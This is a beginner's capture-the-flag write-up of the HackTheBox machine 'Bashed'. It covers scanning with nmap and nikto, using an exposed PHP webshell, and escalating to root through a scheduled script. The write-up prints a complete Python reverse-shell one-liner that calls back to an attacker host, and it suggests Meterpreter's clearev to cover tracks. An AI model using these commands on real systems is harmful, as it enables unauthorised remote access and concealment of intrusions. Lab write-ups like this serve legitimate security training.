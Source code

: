 [Back to Main Page](../index.html) 

# Bashed on HackTheBox


![htb](http://blog.mullineaux.com.au/content/images/2018/01/17434837_1109794339166352_2979213048164507581_o.png)



## Introduction

Bashed is a beginner's box which was the second CTF I ever attempted. When I tried it, I had booted up Kali and knew that a couple tools existed, but did not have any strategies, context or experience. 

This write up assumes that the reader is using Kali, but any pentesting distro such as [BlackArch](https://blackarch.org/) will work. The tools come with a stock Kali installation, unless otherwise mentioned.

## 1. Initial Scanning

All we do have is an IP so we start to run a nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/fyklCXk.png)

nmap did find TCP port 80.

Kali catogorizes most of the HTTP tools under "Web Application Analysis," so I took a peek and tried to get one of them working. I found the most useful starting commands for a website CTF is `nikto`

`nikto -h http://10.10.10.68:80`

Our `-h` flag tells nikto the location of our target. 

![1nikto](https://i.imgur.com/h1r2hqi.png)

Nikto shows us many intersting directories - one of them being /dev/. So I connected on it and found those .php scripts.

![2nikto](https://i.imgur.com/tupNPIp.png)


## 2. Using the found scripts to get access

The phpbash.py script is php based webshell, which allows us to set up a reverse shell. 
![1bashed](https://i.imgur.com/NUbWsT4.png)

First we create an netcat listener on our local kali machine.
`nc -lvnp 249`

Then I tried to create a normal connection, which got refused as there is no `nc -e`option on the machine.   
I found a python reverse shell in the web, which I executed with my options.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",249));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![2bashed](https://i.imgur.com/SdTGlj9.png)

Python worked as expected. After scanning the files I found a user called scriptuser, so I executed the same command with `sudo -u scriptmanager ....` and got access as scriptmanager.

![3bashed](https://i.imgur.com/99Jd661.png)

Now I had access to the before found /script/ path. There I found another python script, which just echos a hello world.

![4bashed](https://i.imgur.com/vO4mImP.png)

The script appeared to run sometimes, so I just created my own one in the same folder via port 2493 to get access as root.

`cat > file.py`

![5bashed](https://i.imgur.com/1ZGLawt.png)

After waiting a minute or so, port 2493 listener connected to the machine.

![6bashed](https://i.imgur.com/aRauVQP.png)

And there we go, the connection as root!
Now we finished by capturing the flag!

![7bashed](https://i.imgur.com/mR7HorY.png)


## 5. Cleanup
 
Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.

![hacked](https://cdn-images-1.medium.com/max/1600/1*TtuBByJ52bSP-d2WPOczJg.png)


